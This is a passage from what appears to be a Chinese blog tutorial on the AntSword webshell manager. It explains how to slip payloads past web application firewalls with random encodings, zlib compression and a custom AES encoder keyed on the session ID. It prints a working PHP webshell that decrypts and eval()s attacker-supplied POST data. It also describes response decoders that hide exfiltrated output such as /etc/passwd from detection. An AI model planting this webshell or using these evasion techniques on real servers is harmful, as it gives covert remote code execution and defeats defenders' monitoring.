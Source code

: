   **当然了，简单的 base64，WAF自己也是可以尝试去解码的，怎么破？**

##### 3.5 常规编码随机组合几种，随你解
  
  现在就比较有意思了，你完全可以用任何编码、加密算法，来发送你的 payload, 前提是你的 webshell 里面有对应的解码、解密算法。比如说你可以在 base64 数据前面随机加几个字符，导致 base64 无法直接解码，或者，你还可以像下面这样，直接用 zlib 把 payload 压缩之后再进行 base64 编码发送

##### 3.6 自定义编码器，Payload加密，走一个

  解码可以解，那我们就上加密吧，蚁剑可以用 RSA 非对称加密、AES、DES等加密方式，直接把 payload 加密之后传输，RSA 编码器之前已经说过了，感兴趣可以看之前的文章：

  ![](/styles/images/2019-6/yi11.webp)

  我们就以 AES-128-ECB(ZeroPadding) 这个编码器为例来说明一下吧，完整的代码请直接去  GitHub 上面看
  ![](/styles/images/2019-6/yi12.webp)
  看红框的位置，主要是从 ext 这个扩展参数里面获取 opts 参数，也就是当前 Shell 的配置信息，然后从 shell 配置信息里面拿当前 Shell 请求的 Cookie 信息，再从 Cookie 里面获取 PHPSESSID，以 session_id 来作为 AES 的秘钥，对 Payload 进行加密。

  值得一提的是，这个样例里面，我用到的是 crypto-js 这个第三方库，因为他使用起来简单，如果你愿意，你完全可以用 nodejs 源生的 crypto 库来进行处理。

  最后 webshell 代码长这个样子：

  ```php
  <?php
  @session_start();
  $pwd='ant';
  $key=@substr(str_pad(session_id(),16,'a'),0,16);
  @eval(openssl_decrypt(base64_decode($_POST[$pwd]), 'AES-128-ECB', $key, OPENSSL_RAW_DATA|OPENSSL_ZERO_PADDING));
  ?>
  ```

  相应的，由于 AES-128 的 Key 是 16位的，而 session_id 具体多少位我们也没法确定，所以，在这里截取了一下 session_id 如果不足16位，就在后面补字母 a

  与上面相对应的，我们蚁剑里的自定义编码器这里，也需要保证使用了相同的算法：
  ![](/styles/images/2019-6/yi13.webp)
  最后是使用环节：

  首先需要用到「浏览网站」这个功能，获取到 PHPSESSID，然后我们保存到 Shell 配置里：
  ![](/styles/images/2019-6/yi14.webp)
  或者你也可以自己手填，我建议是自动获取
  ![](/styles/images/2019-6/yi15.webp)

  然后就可以愉快的使用了，具体的流量截图我就不发了，反正是加密的，演示起来还要多截几张解密的图，太麻烦了。

  那么问题又来了，如果WAF知道了我这个算法，该怎么办呢？ opts 是个好东西，获取的是 shell 配置信息，Session_id 只是其中的一种生成秘钥的方法，你可以拿 UA, 截取UA某一部分，hash UA, 或者任何一个 HTTP 请求头字段，甚至你也可以直接在编码器里面硬编码一个 key，这些，都由你自己决定。

##### 3.7 WAF：都是腊鸡，请求解不了，我拦返回包总可以了吧

  确实如此，从上面7个小节的截图来看，返回包都是明文的数据，如果检测特定的返回包，比方说检测 /etc/passwd 这个文件的特征，正常的业务里是不会有这玩意儿的。

  emmm... 这时候就轮到「解码器」君上场了
  ![](/styles/images/2019-6/yi16.webp)
  默认的解码器是 default(明文)，base64(返回数据经过 base64 编码), rot13, 先来感受一下 base64 吧
  ![](/styles/images/2019-6/yi17.webp)
